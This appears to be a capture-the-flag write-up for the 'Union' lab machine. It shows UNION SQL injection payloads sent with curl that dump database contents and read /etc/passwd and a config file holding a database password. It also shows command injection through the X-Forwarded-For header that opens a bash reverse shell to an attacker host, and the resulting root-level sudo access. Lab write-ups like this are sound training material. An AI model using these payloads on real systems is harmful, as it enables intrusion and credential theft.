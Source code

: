 # Union

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.75
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:22 EDT
Nmap scan report for 10.129.96.75
Host is up (0.0088s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

The name implies I should be looking for some type of UNION SQL Injection somewhere...

### UNION Injection

This reveals a simple website that takes one user input:

<figure><img src="../../../.gitbook/assets/image (4005).png" alt=""><figcaption></figcaption></figure>

If we enter anything, it says that we are eligible to compete in the tournament and gives us a link to `challenge.php`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1157).png" alt=""><figcaption></figcaption></figure>

Since this was a UHC box, `sqlmap` revealed nothing to me, so we have to do this manually. I tried some basic SQL Injection with UNION, and found that it was indeed vulnerable to SQL Injection:

```
$ curl -X POST http://10.129.96.75/ -d "player=user'union select user(); -- -"
Sorry, uhc@localhost you are not eligible due to already qualifying.
```

So now we need to enumerate the database and grab the flag.:

{% code overflow="wrap" %}
```
$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(schema_name) from information_schema.schemata; -- -"
mysql,information_schema,performance_schema,sys,november

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(table_name) from information_schema.tables WHERE table_schema='november'; -- -"
flag,players

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(column_name) from information_schema.columns WHERE table_schema='november'; -- -"
one,player

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(one) from flag; -- -"
UHC{F1rst_5tep_2_Qualify}
```
{% endcode %}

Once we submit the flag, we have SSH access, but we still have no password.

<figure><img src="../../../.gitbook/assets/image (2334).png" alt=""><figcaption></figcaption></figure>

### SSH Creds

Since we still had UNION injection, we can use the `load_file` function to have LFI.&#x20;

```
$ curl -X POST http://10.129.96.75/ -d "player=user' union select load_file('/etc/passwd'); -- -"
Sorry, root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
<TRUNCATED>
```

First we need to identify what files are present on the site. I know that it is PHP-based, so let's start there.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.96.75 -x php -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.75
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/05/08 11:38:12 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 162]
/.htpasswd            (Status: 403) [Size: 162]
/.htaccess            (Status: 403) [Size: 162]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 178] [-> http://10.129.96.75/css/]
/firewall.php         (Status: 200) [Size: 13]
/index.php            (Status: 200) [Size: 1220]
/index.php            (Status: 200) [Size: 1220]
```

There's a `config.php` file, and we can read that:

```
$ curl -X POST http://10.129.96.75/ -d "player=user' union select load_file('/var/www/html/config.php'); -- -"
Sorry, <?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
 you are not eligible due to already qualifying.
```

With that, we can SSH into the machine.

<figure><img src="../../../.gitbook/assets/image (855).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Command Injection -> Sudo

There's another user on the machine:

```
uhc@union:/home$ ls -la
total 16
drwxr-xr-x 1 root root  12 Nov  8  2021 .
drwxr-xr-x 1 root root 164 Jul  2  2021 ..
drwxr-xr-x 1 htb  htb  158 Nov  8  2021 htb
drwxr-xr-x 1 uhc  uhc  108 Nov  8  2021 uhc
```

There isn't much that this user can access. So let's view the website files. The `firewall.php` file is the one that provided us with access to SSH, and it has some vulnerable code:

```php
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>

```

This uses the `X-Forwarded-For` HTTP header variable and passes it directly into a command with `sudo`. Using this request, we can get another reverse shell as `www-data`.

```http
GET /firewall.php HTTP/1.1
Host: 10.129.96.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.96.75/challenge.php
Connection: close
X-Forwarded-For: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.13/4444 0>&1";
Cookie: PHPSESSID=jg4bjv3vg5pol32mv1teq3i0pp
Upgrade-Insecure-Requests: 1

```

<figure><img src="../../../.gitbook/assets/image (3262).png" alt=""><figcaption></figcaption></figure>

When checking our `sudo` privileges, this is what we see:

```
www-data@union:~/html$ sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

<figure><img src="../../../.gitbook/assets/image (2741).png" alt=""><figcaption></figcaption></figure>
